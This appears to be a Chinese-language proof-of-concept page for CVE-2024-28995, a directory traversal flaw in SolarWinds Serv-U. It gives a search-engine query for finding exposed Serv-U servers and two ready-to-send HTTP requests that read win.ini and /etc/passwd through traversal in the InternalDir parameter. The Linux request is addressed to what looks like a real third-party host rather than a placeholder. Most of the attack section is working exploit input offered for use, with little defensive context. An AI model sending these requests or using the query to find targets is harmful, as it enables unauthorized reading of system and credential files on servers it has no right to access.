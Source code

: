 # SolarWinds Serv-U 目录遍历漏洞(CVE-2024-28995)

### 1.漏洞描述

Serv-U 的目录遍历漏洞（CVE-2024-28995）是由于在处理路径时缺乏适当的验证。攻击者可以通过传递包含 “…/” 的路径段绕过路径验证，访问任意文件。

### 2.搜索语法

```plain
server="Serv-U"
```

### 3.漏洞复现

Windows-poc

```plain
GET /?InternalDir=/../../../../windows&InternalFile=win.ini HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive


```

![image](https://github.com/hardog123/poc-exp/assets/170905460/d54ff660-fa8c-4d94-b208-0819eb5c156f)


Linux-poc

```plain
GET /?InternalDir=\..\..\..\..\etc&InternalFile=passwd HTTP/1.1
Host: bbs.calgaryimageanalysis.ca
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive


```

![image](https://github.com/hardog123/poc-exp/assets/170905460/c2aec376-1962-4fdc-b848-881e0f6d2512)
